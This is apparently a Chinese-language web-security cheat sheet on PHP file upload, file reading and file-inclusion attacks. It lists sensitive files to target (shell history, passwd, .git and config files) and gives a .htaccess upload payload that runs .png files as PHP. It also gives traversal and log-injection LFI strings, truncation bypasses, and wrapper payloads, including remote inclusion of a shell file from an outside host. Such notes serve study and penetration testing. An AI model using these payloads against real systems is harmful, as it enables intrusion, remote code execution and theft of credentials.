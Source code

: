 文件
================================

总体思路
--------------------------------
- 上传下载覆盖删除
    - move_uploaded_file
    - file_put_contents/file_get_contents
    - unlink
    - fopen/fgets
- 包含
    - LFI
        - 包含Web日志
        - 包含SSH日志
    - RFI
    - 全局找include, require
- 正常上传
    - 看上传是如何确定能否上传文件的



文件读取
--------------------------------
考虑读取可能有信息的文件

- 用户目录
    - .bash_history
    - .zsh_history
    - .profile
    - .bashrc
    - .gitconfig
    - .viminfo
    - passwd

- 配置文件
    - /etc/apache2/apache2.conf
    - /etc/nginx/nginx.conf

- 日志文件
    - /var/log/apache2/access.log
    - /var/log/nginx/access.log

- 站点目录
    - .svn/entries
    - .git/HEAD
    - WEB-INF/web.xml
    - .htaccess

- 特殊文件
    - .swp
    - .swo
    - .bak
    - index.php~
    - ...

- Python
    - ``__pycache__\__init__.cpython-35.pyc``


文件上传
--------------------------------
apache可根据是否允许重定向考虑上传.htacess
内容为

::
    
    AddType application/x-httpd-php .png
    php_flag engine 1

就可以用png或者其他后缀的文件做php脚本了

另外会解压上传的压缩包文件时，可以考虑上传含符号链接的文件


文件包含
--------------------------------

基础
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

基础包含

::
    
    <?php include("inc/" . $_GET['file']); ?>

考虑常用的三种包含方式

同目录包含

::

    file=.htaccess

目录遍历

::

    ?file=../../../../../../../../../var/lib/locate.db

日志注入

::

    ?file=../../../../../../../../../var/log/apache/error.log

绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一般在文件包含之前，可能会调用file_exists，那么，如何对其进行绕过呢

1. 截断

1.1 %00截断

    几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

1.2 长度截断

    Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

    msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```\0```

    linux可以用getconf来判断文件名长度限制和文件路径长度限制

    获取最长文件路径长度：getconf PATH_MAX /root 得到4096
    获取最长文件名：getconf NAME_MAX /root 得到255

    那么在长度有限的时候，```././././``` (n个) 的形式就可以通过这个把路径爆掉

2. 伪协议绕过
    - RCE: requires allow_url_fopen=On and allow_url_include=On
    
    ::

        ?file=[http|https|ftp]://websec.wordpress.com/shell.txt

    - PHP INPUT: specify your payload in the POST parameters, watch urlencoding, details here, requires allow_url_include=On

    ::

        ?file=php://input

    
    - BASE64: lets you read PHP source because it wont get evaluated in base64. More details here and here

    ::

        ?file=php://filter/convert.base64-encode/resource=index.php

    
    - DATA: requires allow_url_include=On

    ::

        ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=


3. url绕过
4. 特殊字符绕过

